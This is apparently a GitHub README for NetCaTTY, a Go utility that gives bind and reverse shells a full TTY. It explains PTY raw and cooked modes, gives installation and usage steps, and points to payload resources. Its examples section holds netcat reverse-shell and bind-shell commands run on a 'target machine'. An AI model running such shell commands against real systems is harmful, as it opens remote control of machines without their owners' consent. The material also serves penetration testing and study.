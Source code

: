 # NetCaTTY

A simple TCP socket utility that gives you a TTY, either by listening or by
connecting to a remote.

## Why do I need a TTY?

It's like comparing a netcat shell to SSH. SSH is able to pass EVERYTHING that
you type to the remote. `Ctrl-C`, `Ctrl-Z` and friends work as expected and you
don't kill your session. The way that SSH achieves that behaviour is by spawning
the target process (shell) inside a PTY (a pseudo-TTY), putting the local
PTY (that your terminal gives you) in "raw mode", where the program is able
to handle all keystrokes, and forwards them to the remote PTY.

## How does this work?

Well it's mostly arcane magic, as TTYs (and by extent PTYs) are an ancient
technology used in teletypes (TeleTYpewriter and Pseudo-TeletYpewriter),
written around the 60s where everyone had no idea what they're doing and
drugs where at their best. So I'm not exactly sure, but I'm gonna try to explain
what I have in my head right now - if you wanna read the real thing and not
what I figured out by trial and error in 2 days,
read [this](http://www.linusakesson.net/programming/tty/index.php).

It's something like a buffer between the running program (`bash -i` lets say)
and the stdin (keyboard?). It has two modes (or more? I saw some weird
flags in termios): raw and cooked.

In cooked mode, the input is buffered line by line, so that `Ctrl-D`,
`Backspace` and other keys can be processed. This is the default mode when
you get input from stdin in your program.

In raw mode on the other hand, everything (or most things?) are passed to the
program (even `Backspace` and `Ctrl-C`) and it handles them itself. Even
character echo is disabled (where every character you type is displayed
on the screen).

So what we need to achieve is a cooked PTY on the remote (so it handles `Ctrl-C`
locally) where will take stdin from us and send stdout to us

The problems on achieving a cooked mode on the remote with the remote shell
are that first of all your local PTY is in cooked mode (so your netcat doesn't
ever receive that `Delete` character, your PTY handles it) and even if you put
your PTY in raw mode, the remote has no PTY at all, as it was spawned by another
process (like `exec`).

So the first problem is kinda trivial, you put your PTY in raw mode - and I say
kinda because nobody has documented this shit enough in a language like Go
or Python.

The second problem is not that easy to solve. You need to open a PTY and spawn
a process inside it like you would do in your terminal (so `bash` and `bash -i`
will work the same, as most programs understand that they're inside a PTY and
start in interactive mode) and proxy your stdin (got from the local raw PTY) to
the remote's cooked PTY stdin, and do the reverse for stdout.

Now this problem is a real pain, cause nobody does that, especially in any
language other than C. I've found solutions to that for some shells
(like `import pty; pty.spawn("bash")` for python) and I've integrated them into
the tool.

## Examples

Please don't hurt puppers or kitties with them!

If you're short on ideas for payloads, check the following:

 - msfvenom
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) by [swisskyrepo](https://github.com/swisskyrepo)
 - [oneliner.sh](https://github.com/operatorequals/oneliner-sh) by [operatorequals](https://github.com/operatorequals) 

### Bind shell

Target machine (with IP 192.168.1.1): `nc -e "/bin/bash -i" -lp 4444`

Your terminal: `./netcatty -a 192.168.1.1:4444`

### Reverse shell

Target machine: `nc -e "/bin/bash -i" 192.168.1.100 4444`

Your terminal (with IP 192.168.1.100): `./netcatty -l :4444`

## Installation

You can download a binary for your platform [here](https://github.com/dzervas/netcatty/releases).

Compile it on your own:

```bash
git clone https://github.com/dzervas/netcatty
cd netcatty
go run netcatty.go -h
```

Or compile binaries for all OSes & architectures:

```
go get github.com/mitchellh/gox
gox -output "dist/{{.Dir}}_{{.OS}}_{{.Arch}}"
```

## Usage

```
Usage of ./netcatty:
  -a string
    	Listen/Connect address in the form of 'ip:port'.
    	Domains, IPv6 as ip and Service as port ('localhost:http') also work. (default ":4444")
  -l	Enable listening mode
  -m	Disable automatic shell detection and TTY spawn on remote
  -n string
    	Network type to use. Known networks are:
    	To connect: tcp, tcp4 (IPv4-only), tcp6 (IPv6-only), unix and unixpacket
    	To listen: tcp, tcp4, tcp6, unix or unixpacket
    	 (default "tcp")
```

---

Credits at [operatorequals](https://github.com/operatorequals) for making me
write this and at [mattn](https://github.com/mattn) for creating [go-tty](https://github.com/mattn/go-tty).
